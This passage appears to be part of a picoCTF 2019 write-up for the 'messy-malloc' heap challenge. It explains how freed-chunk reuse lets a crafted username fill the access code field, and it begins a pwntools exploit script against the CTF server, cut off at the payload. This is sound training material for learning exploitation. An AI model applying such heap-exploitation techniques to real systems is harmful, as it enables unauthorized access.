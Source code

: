 ![messy-malloc-login](/assets/images/pico2019/messy-malloc-login.jpg)

We can see that our idea was correct, and we have successfully written to the access code field in the second user struct we allocate. The output tells us that the access code field in the struct begins after 8 bytes of input- this means that the username and files fields (4 byte pointers) are placed next to each other by the compiler. 

<br>
Our path is now clear: Login and allocate a 32 byte username, where the first 8 bytes of the username can be anything, and the 16 bytes following should be the access code we found out. Then we logout which will put the username chunk with the password at the beginning of the free list. Then, we login again using an arbitrary sized username, which will allocate a user struct from the front of the free list, placing our input into the access code field.

<br>
The exploit script looks like this:

```python
from pwn import *

p = remote(host='2019shell1.picoctf.com', port='45173')

PASSWORD = 'ROOT_ACCESS_CODE'

def skip_menu():
    p.recvuntil('> ', drop=True)

def login(size, content):
    p.sendline('login')
    p.recvuntil('username\n', drop=True)
    p.sendline(str(size))
    p.recvuntil('username\n', drop=True)
    p.sendline(str(content))
    skip_menu()

skip_menu()
payload = 'A'*8
```